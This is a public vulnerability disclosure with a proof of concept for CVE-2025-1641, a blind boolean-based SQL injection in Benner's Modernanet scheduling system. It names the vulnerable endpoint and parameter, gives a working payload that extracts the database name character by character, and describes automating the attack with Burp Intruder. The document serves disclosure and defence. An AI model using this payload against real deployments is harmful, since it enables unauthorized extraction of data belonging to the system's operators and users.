

# CVE-2025-1641
The Modernanet System by Benner is vulnerable to Blind Boolean Based SQL Injection.

**Affected Version: < 1.1.1**

**OBS: Tool like SQLmap doesn't work in this case**

## POC

This vulnerability resides in the /AGE0000700/GetHorariosDoDia?idespec=0&idproced=1103&data=2025-02-25+19%3A25&agserv=0&convenio=1&localatend=1&idplano=5&pesfis=01&idprofissional=0&target=.horarios--dia--d0&_=1739371223797 page in convenio parameter,

Its possible to manipulate the parameter to insert any SQL query in victim database.

Payload example: `1)) AND (CASE WHEN (SUBSTRING(DB_NAME(),X,1)='Y') THEN 1 ELSE 0 END=1)--`.

If you want to retrieve the database name, **just for the POC**, its just needed to change the argument X to the database name index and Y to the database name character.

## Request example:

---

## After intercepting the request, you can use the Intruder option in BurpSuite

### Intruder Example

Observe, we have a longer response length when the letter is 'r', i.e. the first letter of the database name is 'r'.

You can repeat this, to the other letters

## Full url
https://IP/AGE0000700/GetHorariosDoDia?idespec=0&idproced=1103&data=2025-02-25+19%3A25&agserv=0&convenio=1&localatend=1&idplano=5&pesfis=01&idprofissional=0&target=.horarios--dia--d0&_=1739371223797

---

## Reference

https://modernasistemas.com.br/
